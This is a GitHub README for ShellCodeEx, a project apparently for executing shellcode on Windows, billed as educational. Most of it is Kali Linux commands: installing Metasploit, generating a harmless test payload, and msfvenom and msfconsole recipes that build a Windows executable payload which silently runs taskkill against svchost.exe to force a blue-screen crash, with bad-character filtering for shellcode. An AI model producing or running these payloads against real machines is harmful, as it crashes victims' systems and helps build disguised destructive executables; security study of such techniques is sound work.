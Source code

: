 # ShellCodeEx

[![](https://img.shields.io/badge/platform-Windows-informational)](https://github.com/Zalexanninev15/ShellCodeEx)
[![](https://img.shields.io/badge/written_on-C-000000.svg?logo=c)](https://github.com/Zalexanninev15/ShellCodeEx)
[![](https://img.shields.io/badge/written_on-.NET_9-651DE5.svg?logo=dotnet)](https://dotnet.microsoft.com/download/dotnet/6.0)
[![](https://img.shields.io/badge/written_on-C%23-%23239120.svg?logo=sharp&logoColor=white)](https://github.com/Zalexanninev15/SharkRemoteV4)
[![](https://img.shields.io/github/v/release/Zalexanninev15/ShellCodeEx)](https://github.com/Zalexanninev15/ShellCodeEx/releases/latest)
[![](https://img.shields.io/github/downloads/Zalexanninev15/ShellCodeEx/total.svg)](https://github.com/Zalexanninev15/ShellCodeEx/releases)
[![](https://img.shields.io/github/last-commit/Zalexanninev15/ShellCodeEx/main.svg)](https://github.com/Zalexanninev15/ShellCodeEx/commits/main)
[![](https://img.shields.io/github/stars/Zalexanninev15/ShellCodeEx.svg)](https://github.com/Zalexanninev15/ShellCodeEx/stargazers)
[![](https://img.shields.io/github/forks/Zalexanninev15/ShellCodeEx.svg)](https://github.com/Zalexanninev15/ShellCodeEx/network/members)
[![](https://img.shields.io/badge/license-GPLv3-ligthgreen.svg)](LICENSE)
[![](https://img.shields.io/badge/Donate-FFDD00.svg?logo=buymeacoffee&logoColor=black)](https://z15.neocities.org/donate)

## Description

My personal experiment on executing shellcode on Windows. For educational purposes!!!

## Kali Linux commands for generate shellcode

Install Metasploit Framework:

```bash
sudo apt install metasploit-framework -y
```

### Test shellcode

```bash
msfconsole -x "use payload/windows/x64/exec; set CMD 'powershell -c \"ls\" && pause'; generate -f ps1; exit"
```

### Generate BSOD (building an executable file)

```bash
msfvenom --platform windows --arch x64 -p windows/x64/exec CMD='cmd.exe /c start /min powershell -Command "Start-Process cmd -ArgumentList \"/c taskkill /F /IM svchost.exe\" -WindowStyle Hidden"' -b '\x00\x0A\x0D' -f exe -o bsod_kali.exe
```

### Generate BSOD

```bash
msfconsole
> use payload/windows/x64/exec
> set CMD cmd.exe /c start /min powershell -Command \"Start-Process cmd -ArgumentList \\\"/c taskkill /F /IM svchost.exe\\\" -WindowStyle Hidden\"
> exit
```
